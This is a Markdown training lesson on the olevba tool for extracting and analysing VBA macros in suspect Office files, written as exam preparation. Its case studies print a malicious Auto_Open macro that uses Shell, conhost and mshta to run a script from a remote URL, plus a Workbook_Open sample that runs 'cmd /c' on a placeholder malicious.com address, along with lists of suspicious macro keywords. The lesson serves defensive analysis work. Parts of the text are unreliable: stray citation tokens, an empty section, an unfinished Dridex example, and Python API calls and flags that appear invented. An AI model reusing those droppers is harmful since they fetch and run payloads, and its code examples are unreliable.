



---
tags: [tool]
---
# 🧪 Full-Stack Lesson: Using `olevba` for VBA Macro Extraction and Analysis


## TCM Exam Objectives
- Install and configure olevba from the oletools suite for Office document analysis
- Extract and decode VBA macro source code from all supported Office formats
- Apply deobfuscation techniques: hex decoding, Base64, string reversal, and Dridex
- Identify auto-execution triggers: Auto_Open, Document_Open, Workbook_Open
- Detect suspicious keywords: Shell, WScript.Shell, URLDownloadToFile, CreateProcess
- Extract IOCs from macro code including URLs, IPs, file paths, and registry keys
- Use the Python API for automated batch processing and SIEM/SOAR integration
- Interpret olevba analysis output including type, keyword, and description columns
- Understand olevba limitations: VBA stomping, macroless attacks (DDE, XLM), encryption
- Deploy olevba in automated pipelines with MISP, Splunk, and other security platforms

# 🧪 Full-Stack Lesson: Using `olevba` for VBA Macro Extraction and Analysis

## 📋 Lesson Overview
This lesson provides a comprehensive, full-stack exploration of **`olevba`**, a powerful tool from the `oletools` suite for extracting and analyzing VBA macros from Microsoft Office documents. We'll cover everything from fundamental concepts to advanced analysis techniques, automation integration, and real-world applications in malware analysis.



📌 **Exam Tip:** For the PSAA exam, remember that olevba is the tool for VBA macro extraction, but it cannot detect DDE attacks (field codes), Excel 4.0 XLM macros, or VBA-stomped documents. Always run `oleid` first for triage, then `olevba` for extraction. Suspicious keywords to memorize: `Shell`, `WScript.Shell`, `URLDownloadToFile`, `CreateProcess`, `PowerShell`, `WinHttp.WinHttpRequest`.



## 1. 🎯 Fundamentals: Understanding `olevba` and VBA Macros

### 1.1 What is `olevba`?
`olevba` is a Python script that parses OLE and OpenXML files (such as Microsoft Office documents) to:
- **Detect VBA macros** in Office files
- **Extract macro source code** in clear text
- **Identify security-related patterns** including auto-executable macros, suspicious keywords, anti-sandboxing techniques, and potential IOCs
- **Decode obfuscated strings** using various methods (Hex, Base64, StrReverse, Dridex, VBA expressions)
- **Extract IOCs** like IP addresses, URLs, email addresses, and executable filenames 【turn0search1】【turn0search5】

### 1.2 VBA Macros and Office Document Formats
**Visual Basic for Applications (VBA)** macros are embedded code in MS Office documents that can execute automatically when documents are opened. Attackers commonly use macros to:
- Download and execute additional malware
- Modify system files and configurations
- Exfiltrate sensitive data
- Establish persistence mechanisms 【turn0search11】

**Supported File Formats**:
- **Word 97-2003**: `.doc`, `.dot`
- **Word 2007+**: `.docm`, `.dotm`
- **Excel 97-2003**: `.xls`
- **Excel 2007+**: `.xlsm`, `.xlsb`
- **PowerPoint 97-2003**: `.ppt`
- **PowerPoint 2007+**: `.pptm`, `.ppsm`
- **Other formats**: XML, MHT, Publisher, SYLK/SLK files, text files with VBA 【turn0search1】

### 1.3 The `oletools` Suite
`olevba` is part of the **`oletools`** package, which includes several complementary tools for analyzing malicious documents:

| Tool | Purpose | Key Features |
|------|---------|--------------|
| **oleid** | Detects malicious characteristics | Identifies VBA macros, suspicious keywords, encryption |
| **olevba** | VBA macro extraction and analysis | Source code extraction, deobfuscation, IOC detection |
| **mraptor** | Detects malicious VBA macros | Static analysis of macro code |
| **oleobj** | Extracts embedded objects | OLE objects, ActiveX controls |
| **olemeta** | Extracts document metadata | Author, creation date, modification timestamps |
| **rtfobj** | Analyzes RTF files | Extracts embedded objects and exploits 【turn0search5】【turn0search6】 |

## 2. ⚙️ Installation and Setup

### 2.1 Prerequisites
- **Python 3.6+** (recommended 3.8+)
- `pip` package manager
- Basic understanding of command-line interface

### 2.2 Installation Methods

<details>
<summary>🔧 Installation Options</summary>

#### **Method 1: Using pip (Recommended)**
```bash
pip install oletools
```

#### **Method 2: From Source**
```bash
git clone https://github.com/decalage2/oletools.git
cd oletools
python setup.py install
```

#### **Method 3: Using pipenv or virtualenv**
```bash
# Create virtual environment
python -m venv oletools-env
source oletools-env/bin/activate  # On Windows: oletools-env\Scripts\activate

# Install oletools
pip install oletools
```

#### **Verification**
```bash
# Check if olevba is installed correctly
olevba --version
```
</details>

### 2.3 Platform-Specific Considerations

<details>
<summary>💻 Platform Setup</summary>

#### **Linux (Ubuntu/Debian)**
```bash
# Install Python and pip
sudo apt update
sudo apt install python3 python3-pip

# Install oletools
pip3 install oletools
```

#### **Windows**
1. Install Python from [python.org](https://python.org)
2. Ensure "Add Python to PATH" during installation
3. Open Command Prompt and run:
```cmd
pip install oletools
```

#### **macOS**
```bash
# Install Homebrew if not installed
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"

# Install Python
brew install python

# Install oletools
pip3 install oletools
```

#### **REMnux (Malware Analysis Distribution)**
`oletools` is pre-installed on REMnux, a popular Linux toolkit for malware analysis 【turn0search6】.
```bash
# Update oletools on REMnux
sudo pip3 install --upgrade oletools
```
</details>

## 3. 🚀 Basic Usage and Command-Line Interface

### 3.1 Basic Command Structure
```bash
olevba [options] <filename> [filename2 ...]
```

### 3.2 Common Options and Examples

<details>
<summary>📖 Command-Line Examples</summary>

#### **1. Basic Macro Extraction**
```bash
olevba document.docm
```
This extracts and displays all VBA macros found in the document.

#### **2. Analysis-Only Mode**
```bash
olevba -a document.docm
```
Displays only analysis results (suspicious keywords, IOCs) without the full macro source code 【turn0search1】.

#### **3. Recursive Directory Scan**
```bash
olevba -r /path/to/directory/
```
Recursively scans all Office files in the specified directory and subdirectories.

#### **4. Password-Protected Archives**
```bash
olevba -z infected_password document.zip
```
Extracts files from a password-protected ZIP archive using the specified password.

#### **5. Decrypted Office Files**
```bash
olevba -p password encrypted.docm
```
Attempts to decrypt encrypted Office files using the provided password 【turn0search1】.

#### **6. Triage Mode for Multiple Files**
```bash
olevba -t *.docm *.xlsm
```
Provides a summary view of multiple files, useful for triaging large collections.

#### **7. JSON Output for Automation**
```bash
olevba -j document.docm > output.json
```
Outputs results in JSON format for integration with other tools and scripts.
</details>

### 3.3 Understanding the Output

`olevba` provides several sections in its output:

1. **File Information**: File name, type, and format
2. **VBA Macro Source Code**: Extracted macro code in readable format
3. **Analysis Results**: Table of detected patterns and suspicious keywords
4. **IOCs**: Extracted indicators of compromise (URLs, IPs, file names)

**Example Analysis Output**:
```
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |hxxp://malicious[.]com|URL                                        |
|          |                    |                                             |
|IOC       |payload.exe         |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```
【turn0search9】

📌 **Exam Tip:** `olevba --decode` is the flag you need for deobfuscation on the exam. It handles: Hex encoding, Base64, StrReverse, Dridex (character shift), and VBA expressions. Always use `-c` (decompress first) before `--decode` to get the clearest output. The `--reveal` flag extracts IOCs from decoded strings.

## 4. 🔍 Advanced Analysis Techniques

### 4.1 Deobfuscation Methods

`olevba` can automatically detect and decode several common obfuscation techniques:

<details>
<summary>🔐 Obfuscation Techniques Handled</summary>

#### **1. Hex Encoding**
Malware authors often use hex-encoded strings to hide malicious content.
```vba
' Original obfuscated code
strURL = "68747470733a2f2f6d616c6963696f75732e636f6d"

' After olevba deobfuscation
strURL = "https://malicious.com"
```

#### **2. Base64 Encoding**
Common for hiding strings and payloads.
```vba
' Obfuscated
encodedData = "aHR0cHM6Ly9tYWxpY2lvdXMuY29tL3BheWxvYWQ="

' Deobfuscated
encodedData = "https://malicious.com/payload"
```

#### **3. String Reversal**
```vba
' Obfuscated
reversed = "moc.suoicilam//ptth"

' Deobfuscated
reversed = "http://malicious.com"
```

#### **4. Dridex-style Obfuscation**
Uses custom encoding schemes commonly seen in Dridex malware.
```vba
' Obfuscated
encoded = "3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F"

' Deobfuscated (after proper decoding)
```

#### **5. VBA Expression Obfuscation**
Combines multiple functions to create complex obfuscation:
```vba
' Obfuscated
result = Chr(104) & Chr(116) & Chr(116) & Chr(112) & Chr(58) & Chr(47) & Chr(47)

' Deobfuscated
result = "http://"
```

`olevba` uses a VBA parser built with `pyparsing` to deobfuscate these expressions 【turn0search1】.
</details>

### 4.2 IOC Extraction and Pattern Detection

<details>
<summary>🎯 IOC Types Extracted</summary>

#### **1. Network IOCs**
- **URLs**: Malicious download locations, C2 servers
- **IP Addresses**: Often used for direct connections
- **Domain Names**: Compromised or attacker-controlled domains
- **User Agents**: Custom user agents for C2 communication

#### **2. File System IOCs**
- **Executable Names**: Malware payloads (e.g., `payload.exe`, `dropper.dll`)
- **File Paths**: Locations for dropped files or persistence mechanisms
- **File Hashes**: Sometimes embedded in macros for verification

#### **3. Registry IOCs**
- **Registry Keys**: Persistence mechanisms (e.g., `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`)
- **Registry Values**: Configuration data for malware

#### **4. Email IOCs**
- **Email Addresses**: For spam or phishing operations
- **Email Subjects**: Pre-configured email templates

#### **5. Other IOCs**
- **Mutex Names**: For ensuring single instance execution
- **Window Titles**: For finding specific application windows
- **Service Names**: For installed malicious services
</details>

### 4.3 Suspicious Keyword Detection

`olevba` maintains a database of suspicious keywords commonly used by malicious macros:

| Category | Keywords | Risk Level |
|----------|----------|------------|
| **Auto-Execution** | `Auto_Open`, `AutoOpen`, `DocumentOpen` | High |
| **Code Execution** | `Shell`, `WScript.Shell`, `CreateProcess` | High |
| **File Operations** | `Kill`, `Open`, `Write`, `Print` | Medium |
| **Network Operations** | `URLDownloadToFile`, `XMLHTTP`, `WinHttpReq` | High |
| **Anti-Analysis** | `IsDebuggerPresent`, `CheckRemoteDebugger` | Medium |
| **System Interaction** | `Environ`, `GetSystemDirectory` | Medium |

## 5. 🤖 Automation and Integration

### 5.1 Python API Integration

<details>
<summary>🐍 Python API Examples</summary>

#### **1. Basic Macro Extraction**
```python
from oletools.olevba import VBA_Parser

# Initialize VBA parser
vba_parser = VBA_Parser('malicious.docm')

# Check if macros are present
if vba_parser.detect_vba_macros():
    # Extract all macros
    for (filename, stream_path, vba_filename, vba_code) in vba_parser.extract_macros():
        print(f"File: {filename}")
        print(f"Stream: {stream_path}")
        print(f"VBA Filename: {vba_filename}")
        print(f"Macro Code:\n{vba_code}\n")
        
        # Analyze macro code
        analysis = vba_parser.analyze_macro()
        for kw_type, keyword, description in analysis:
            print(f"  {kw_type}: {keyword} - {description}")

# Clean up
vba_parser.close()
```

#### **2. Batch Processing Multiple Files**
```python
import os
from oletools.olevba import VBA_Parser
import json

def analyze_directory(directory_path):
    results = []
    
    for root, dirs, files in os.walk(directory_path):
        for file in files:
            file_path = os.path.join(root, file)
            try:
                # Check if file is Office document
                if file.lower().endswith(('.docm', '.xlsm', '.pptm', '.doc', '.xls', '.ppt')):
                    vba_parser = VBA_Parser(file_path)
                    
                    if vba_parser.detect_vba_macros():
                        # Extract analysis
                        analysis = vba_parser.analyze_macro()
                        iocs = vba_parser.extract_iocs()
                        
                        result = {
                            'file': file_path,
                            'has_macros': True,
                            'analysis': analysis,
                            'iocs': iocs
                        }
                        results.append(result)
                    else:
                        results.append({
                            'file': file_path,
                            'has_macros': False
                        })
                    
                    vba_parser.close()
                    
            except Exception as e:
                results.append({
                    'file': file_path,
                    'error': str(e)
                })
    
    return results

# Analyze all files in a directory
results = analyze_directory('/path/to/samples/')

# Save results to JSON
with open('analysis_results.json', 'w') as f:
    json.dump(results, f, indent=2)
```

#### **3. Custom Analysis with Deobfuscation**
```python
from oletools.olevba import VBA_Parser
import re

def advanced_macro_analysis(file_path):
    vba_parser = VBA_Parser(file_path)
    
    if not vba_parser.detect_vba_macros():
        return None
    
    findings = {
        'file': file_path,
        'macros': [],
        'suspicious_patterns': [],
        'deobfuscated_strings': [],
        'iocs': {
            'urls': [],
            'ips': [],
            'domains': [],
            'file_paths': []
        }
    }
    
    # Extract and analyze each macro
    for (filename, stream_path, vba_filename, vba_code) in vba_parser.extract_macros():
        macro_info = {
            'filename': vba_filename,
            'code': vba_code,
            'lines': len(vba_code.split('\n')),
            'auto_exec': False,
            'suspicious_keywords': []
        }
        
        # Check for auto-execution
        if re.search(r'Auto_Open|DocumentOpen|WorkbookOpen', vba_code, re.IGNORECASE):
            macro_info['auto_exec'] = True
        
        # Check for suspicious keywords
        suspicious_keywords = [
            'Shell', 'WScript.Shell', 'CreateProcess', 'URLDownloadToFile',
            'XMLHTTP', 'WinHttpReq', 'Kill', 'Environ', 'IsDebuggerPresent'
        ]
        
        for keyword in suspicious_keywords:
            if keyword.lower() in vba_code.lower():
                macro_info['suspicious_keywords'].append(keyword)
        
        findings['macros'].append(macro_info)
        
        # Extract IOCs from macro code
        urls = re.findall(r'https?://[^\s"\']+', vba_code)
        ips = re.findall(r'\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b', vba_code)
        
        findings['iocs']['urls'].extend(urls)
        findings['iocs']['ips'].extend(ips)
    
    # Get deobfuscated strings
    deobfuscated = vba_parser.get_deobfuscated_strings()
    findings['deobfuscated_strings'] = deobfuscated
    
    vba_parser.close()
    return findings
```
</details>

### 5.2 Integration with Security Tools

<details>
<summary>🔗 Security Tool Integration</summary>

#### **1. SIEM Integration**
```python
# Example: Sending olevba results to Splunk
import requests
import json

def send_to_splunk(results, splunk_url, token):
    headers = {
        'Authorization': f'Bearer {token}',
        'Content-Type': 'application/json'
    }
    
    payload = {
        'event': results,
        'sourcetype': 'olevba:analysis'
    }
    
    response = requests.post(
        f'{splunk_url}/services/collector',
        headers=headers,
        data=json.dumps(payload)
    )
    
    return response.status_code

# Usage
results = advanced_macro_analysis('malicious.docm')
send_to_splunk(results, 'https://splunk.company.com:8088', 'your-splunk-token')
```

#### **2. SOAR Playbook Integration**
```python
# Example: Swimlane SOAR integration
def olevba_analysis_playbook(file_hash, file_path):
    # 1. Analyze with olevba
    analysis_results = advanced_macro_analysis(file_path)
    
    if analysis_results and analysis_results['macros']:
        # 2. Extract IOCs
        iocs = {
            'urls': analysis_results['iocs']['urls'],
            'ips': analysis_results['iocs']['ips'],
            'file_paths': analysis_results['iocs']['file_paths']
        }
        
        # 3. Check IOCs against threat intelligence
        threat_intel_results = check_iocs_against_ti(iocs)
        
        # 4. Create incident if malicious
        if threat_intel_results['malicious']:
            incident = {
                'title': f'Malicious document detected: {file_hash}',
                'severity': 'high',
                'artifacts': iocs,
                'analysis': analysis_results
            }
            
            # 5. Execute response actions
            if threat_intel_results['severity'] == 'critical':
                # Block IOCs on firewall
                block_iocs(iocs)
                # Quarantine file
                quarantine_file(file_path)
                # Notify security team
                notify_security_team(incident)
            
            return incident
    
    return None
```

#### **3. Threat Intelligence Platform Integration**
```python
# Example: Integrating with MISP (Malware Information Sharing Platform)
from pymisp import PyMISP

def upload_iocs_to_misp(iocs, misp_url, misp_key):
    misp = PyMISP(misp_url, misp_key, ssl=False)
    
    event = misp.new_event()
    event.info = "IOCs extracted from malicious document"
    
    for url in iocs['urls']:
        misp.add_url(event, url)
    
    for ip in iocs['ips']:
        misp.add_ipdst(event, ip)
    
    for domain in iocs['domains']:
        misp.add_domain(event, domain)
    
    misp.publish(event)
    return event.id
```
</details>

## 6. 📊 Practical Case Studies and Examples

### 6.1 Case Study: Analyzing a Malicious PowerPoint File

<details>
<summary>📊 Real-World Analysis Example</summary>

#### **Sample**: `PO04012022.ppam` (PowerPoint Add-in with Macros) 【turn0search9】

**Step 1: File Identification**
```bash
file PO04012022.ppam
# Output: Microsoft PowerPoint 2007+
```

**Step 2: Basic Analysis with `olevba`**
```bash
olevba PO04012022.ppam
```

**Key Findings**:
1. **Auto-Execution**: `Auto_Open` macro detected
2. **Suspicious Code**: `Shell` function used to execute commands
3. **Obfuscation**: Hex-encoded strings and Base64 detected
4. **IOCs**:
   - URL: `hxxp://www.j[.]mp/askswewewewzxzxkd`
   - Executable: `conhost.exe`

**Extracted Macro Code**:
```vba
Public Function lol()
    Debug.Assert (VBA.Shell("c:\windows\system32\calc\..\conhost.exe c:\windows\system32\calc\..\conhost.exe mshta hxxp://www.j[.]mp/askswewewewzxzxkd"))
End Function

Sub Auto_Open()
    Dim obj As New Class1
    Debug.Print MsgBox("ERROR!Re-Install Office", vbOKCancel); returns; 1
    obj.lol
End Sub
```

**Analysis**:
- The macro uses `Auto_Open` to execute automatically when the file is opened
- It calls `Shell` to execute `conhost.exe` with `mshta` to run a remote script
- The URL is likely a payload delivery mechanism
- The error message is a decoy to make the file appear legitimate
</details>

### 6.2 Case Study: Obfuscated Macro Analysis

<details>
<summary>🔍 Obfuscation Analysis Example</summary>

#### **Sample**: Document with Hex-Encoded Strings

**Original Obfuscated Code**:
```vba
Sub Workbook_Open()
    Dim payload As String
    payload = "68747470733a2f2f6d616c6963696f75732e636f6d2f7061796c6f6164"
    
    ' Additional obfuscation with string reversal
    Dim reversed As String
    reversed = StrReverse("moc.suoicilam//ptth")
    
    ' Combine and execute
    Dim finalURL As String
    finalURL = payload & reversed
    Shell "cmd /c " & finalURL
End Sub
```

**After `olevba` Deobfuscation**:
```vba
Sub Workbook_Open()
    Dim payload As String
    payload = "https://malicious.com/payload"  ' Decoded from hex
    
    ' Decoded string reversal
    Dim reversed As String
    reversed = "http://malicious.com"  ' Decoded from reversal
    
    ' Final URL
    Dim finalURL As String
    finalURL = payload & reversed
    Shell "cmd /c " & finalURL
End Sub
```

**Extracted IOCs**:
- **URLs**: `https://malicious.com/payload`, `http://malicious.com`
- **Executable**: `cmd.exe`
- **Technique**: Hex encoding + string reversal
</details>

## 7. ⚠️ Limitations and Considerations

### 7.1 Limitations of `olevba`

<details>
<summary>⚠️ Known Limitations</summary>

#### **1. VBA Stomping Detection**
- `olevba` may not detect VBA stomping (where p-code is modified while source code remains clean)
- Warning: "For now, VBA stomping cannot be detected for files in memory" 【turn0search9】

#### **2. Advanced Obfuscation Techniques**
- Some advanced obfuscation methods may not be decoded
- Custom encryption schemes require manual analysis
- New obfuscation techniques emerge regularly

#### **3. Macroless Attacks**
- `olevba` only analyzes VBA macros
- Does not detect:
  - DDE exploits
  - OLE object vulnerabilities
  - Excel 4.0 (XLM) macros (partially supported with XLMMacroDeobfuscator)
  - External links and connections

#### **4. Encrypted Files**
- While `olevba` can handle password-protected archives, encrypted Office files require the password
- Some encryption methods may not be supported

#### **5. Performance with Large Files**
- Very large files or files with many macros may take longer to process
- Memory usage can be high for complex documents
</details>

### 7.2 Complementary Tools and Techniques

<details>
<summary>🛠️ Complementary Analysis Tools</summary>

#### **1. Additional `oletools` Utilities**
- **`oleid`**: Quick triage for suspicious indicators
- **`mraptor`**: Static analysis of VBA macros for malicious patterns
- **`oleobj`**: Extract embedded OLE objects
- **`rtfobj`**: Analyze RTF files for embedded objects

#### **2. External Analysis Tools**
- **`YARA`**: Pattern matching for specific malware families
- **`ssdeep`**: Fuzzy hashing for similarity analysis
- **`pefile`**: Analyze PE files dropped by macros
- **`Didier Stevens Suite`**: Additional Office analysis tools

#### **3. Dynamic Analysis**
- **Sandboxing**: Cuckoo Sandbox, Joe Sandbox, ANY.RUN
- **Debugging**: WinDbg, x64dbg for runtime analysis
- **Network Analysis**: Wireshark, NetworkMiner for traffic capture

#### **4. Threat Intelligence Integration**
- **VirusTotal**: Check file hashes and IOCs
- **MalwareBazaar**: Sample sharing and analysis
- **MISP**: Threat intelligence platform for IOC sharing
</details>

## 8. 🚀 Advanced Topics and Future Developments

### 8.1 Machine Learning Integration

<details>
<summary>🤖 ML-Enhanced Analysis</summary>

#### **1. Automated Malware Classification**
```python
# Example: Using ML to classify macro behavior
from sklearn.ensemble import RandomForestClassifier
import numpy as np

# Feature extraction from olevba results
def extract_features(olevba_results):
    features = []
    
    for macro in olevba_results['macros']:
        # Code complexity features
        features.append(len(macro['code']))  # Code length
        features.append(macro['code'].count('\n'))  # Line count
        
        # Suspicious keyword count
        features.append(len(macro['suspicious_keywords']))
        
        # IOC count
        features.append(len(olevba_results['iocs']['urls']))
        features.append(len(olevba_results['iocs']['ips']))
        
        # Auto-execution flag
        features.append(1 if macro['auto_exec'] else 0)
    
    return np.array(features)

# Train classifier (simplified example)
# classifier = RandomForestClassifier()
# classifier.fit(training_features, training_labels)
```

#### **2. Anomaly Detection**
- Detect unusual patterns in macro code
- Identify novel obfuscation techniques
- Flag previously unseen suspicious patterns
</details>

### 8.2 Cloud Integration and Scalability

<details>
<summary>☁️ Cloud-Based Analysis</summary>

#### **1. AWS Lambda Integration**
```python
# Example: AWS Lambda function for olevba analysis
import json
import boto3
from oletools.olevba import VBA_Parser
import tempfile
import os

def lambda_handler(event, context):
    # Get file from S3
    s3 = boto3.client('s3')
    bucket = event['Records'][0]['s3']['bucket']['name']
    key = event['Records'][0]['s3']['object']['key']
    
    # Download file to temporary location
    tmp_file = tempfile.mktemp()
    s3.download_file(bucket, key, tmp_file)
    
    # Analyze with olevba
    try:
        vba_parser = VBA_Parser(tmp_file)
        
        if vba_parser.detect_vba_macros():
            results = {
                'file': key,
                'has_macros': True,
                'analysis': vba_parser.analyze_macro(),
                'iocs': vba_parser.extract_iocs()
            }
        else:
            results = {
                'file': key,
                'has_macros': False
            }
        
        vba_parser.close()
        
        # Store results in DynamoDB
        dynamodb = boto3.resource('dynamodb')
        table = dynamodb.Table('MalwareAnalysisResults')
        table.put_item(Item=results)
        
        return {
            'statusCode': 200,
            'body': json.dumps('Analysis completed successfully')
        }
        
    except Exception as e:
        return {
            'statusCode': 500,
            'body': json.dumps(f'Error: {str(e)}')
        }
    finally:
        # Clean up
        if os.path.exists(tmp_file):
            os.remove(tmp_file)
```

#### **2. Containerized Analysis**
```dockerfile
# Dockerfile for olevba analysis
FROM python:3.9-slim

# Install oletools
RUN pip install oletools

# Copy analysis script
COPY analyze.py /app/analyze.py

# Set working directory
WORKDIR /app

# Run analysis
CMD ["python", "analyze.py"]
```
</details>

## 9. 📚 Best Practices and Recommendations

### 9.1 Analysis Workflow Recommendations

<details>
<summary>✅ Recommended Analysis Workflow</summary>

#### **1. Initial Triage**
```bash
# 1. Quick triage with oleid
oleid suspicious_document.docm

# 2. Batch triage with olevba
olevba -t *.docm *.xlsm *.pptm
```

#### **2. Detailed Analysis**
```bash
# 1. Full analysis with deobfuscation
olevba --decode suspicious_document.docm

# 2. JSON output for automation
olevba -j suspicious_document.docm > analysis.json

# 3. Extract just the macros
olevba --no-analysis suspicious_document.docm > macros.vba
```

#### **3. IOC Extraction and Sharing**
```bash
# 1. Extract all IOCs
olevba --ioc suspicious_document.docm

# 2. Format for threat intelligence platforms
olevba -j suspicious_document.docm | jq '.iocs' > iocs.json
```

#### **4. Integration with Threat Intelligence**
```python
# 1. Check IOCs against threat intelligence
iocs = extract_iocs_from_olevba('analysis.json')
ti_results = check_iocs_against_ti(iocs)

# 2. Upload to MISP or other TIPs
upload_to_misp(iocs)
```
</details>

### 9.2 Security Considerations

<details>
<summary>🔒 Security Best Practices</summary>

#### **1. Safe Analysis Environment**
- Always analyze malicious documents in an isolated environment
- Use dedicated malware analysis VMs (REMnux, FlareVM)
- Never analyze on production systems
- Use network segmentation for analysis environments

#### **2. Handling Sensitive Data**
- Be cautious with documents containing sensitive information
- Use data masking for PII in analysis reports
- Securely store analysis results and samples

#### **3. Operational Security**
- Use dedicated analysis accounts with minimal privileges
- Regularly update analysis tools and definitions
- Monitor analysis environments for compromise

#### **4. Responsible Disclosure**
- Share IOCs responsibly with appropriate communities
- Respect embargo periods for zero-day vulnerabilities
- Anonymize sensitive information in public reports
</details>

## 10. 🎓 Conclusion and Future Directions

### 10.1 Key Takeaways

1. **`olevba` is a powerful tool** for extracting and analyzing VBA macros from Office documents
2. **It provides comprehensive analysis** including deobfuscation, IOC extraction, and suspicious keyword detection
3. **Automation capabilities** make it suitable for integration with SIEM, SOAR, and threat intelligence platforms
4. **Complementary tools** in the `oletools` suite provide additional analysis capabilities
5. **Regular updates** are essential to keep up with new obfuscation techniques

### 10.2 Future Developments

The future of `olevba` and macro analysis includes:



### 10.3 Continuous Learning Resources

- **Official Documentation**: [oletools GitHub Wiki](https://github.com/decalage2/oletools/wiki)
- **Community Resources**: Malware analysis forums and blogs
- **Training Platforms**: LetsDefend, HackTheBox, MalwareTrafficAnalysis
- **Conferences**: DEF CON, Black Hat, Virus Bulletin

> 💡 **Pro Tip**: The most effective malware analysts combine technical proficiency with `olevba` and other tools with curiosity, persistence, and continuous learning. Always stay updated with new malware techniques and analysis methods.

---

**📚 Additional Resources**:
- [oletools Documentation](https://github.com/decalage2/oletools/wiki)
- [Malware Analysis Techniques](https://www.paloaltonetworks.com/cyberpedia/indicators-of-compromise-iocs)
- [VBA Macro Security](https://www.microsoft.com/en-us/security/blog/2023/04/11/the-evolution-of-malicious-macros-in-office-documents/)
- [Threat Intelligence Sharing](https://attack.mitre.org/)

*This lesson provides a comprehensive foundation for using `olevba` in malware analysis. Mastery comes with practice—analyze as many samples as possible, document your findings, and continuously refine your analysis techniques.*